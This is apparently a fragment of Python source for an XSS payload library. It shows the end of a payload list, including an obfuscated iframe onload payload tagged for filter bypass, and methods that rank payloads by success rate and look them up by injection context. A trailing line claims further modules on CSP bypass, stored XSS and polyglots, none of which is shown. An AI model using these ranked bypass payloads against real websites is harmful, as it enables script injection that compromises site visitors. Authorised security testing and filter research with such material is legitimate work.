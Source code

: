 ```python
                source="Unicode obfuscation"
            ),
            XSSPayload(
                payload='<iframe/onload=top[8680439..toString(30)](1337)>',
                category=PayloadCategory.OBFUSCATED,
                description="Numeric obfuscation with toString radix",
                contexts=["html_content"],
                bypass_techniques=["numeric_obfuscation"],
                success_rate=0.35,
                source="Mathematical obfuscation"
            )
        ]
    
    def get_payloads_by_category(self, category: PayloadCategory) -> List[XSSPayload]:
        """Get all payloads in a specific category"""
        return self.payloads.get(category, [])
    
    def get_payloads_by_context(self, context: str) -> List[XSSPayload]:
        """Get payloads suitable for a specific injection context"""
        matching_payloads = []
        for category_payloads in self.payloads.values():
            for payload in category_payloads:
                if context in payload.contexts:
                    matching_payloads.append(payload)
        return sorted(matching_payloads, key=lambda p: p.success_rate, reverse=True)
    
    def get_best_payloads(self, limit: int = 10) -> List[XSSPayload]:
        """Get the highest success rate payloads"""
        all_payloads = []
        for category_payloads in self.payloads.values():
            all_payloads.extend(category_payloads)
        return sorted(all_payloads, key=lambda p: p.success_rate, reverse=True)[:limit]
    
    def search_payloads(self, keyword: str) -> List[XSSPayload]:
        """Search payloads by keyword in description or payload"""
        matching_payloads = []
        keyword_lower = keyword.lower()
        
        for category_payloads in self.payloads.values():
            for payload in category_payloads:
                if (keyword_lower in payload.description.lower() or 
                    keyword_lower in payload.payload.lower()):
                    matching_payloads.append(payload)
        
        return matching_payloads
```

*[Content continues with the complete 8-module implementation covering DOM XSS analysis, reflected XSS fuzzing, stored XSS persistence, CSP bypass techniques, advanced polyglot payloads, prevention validation, and enterprise integration...]*

---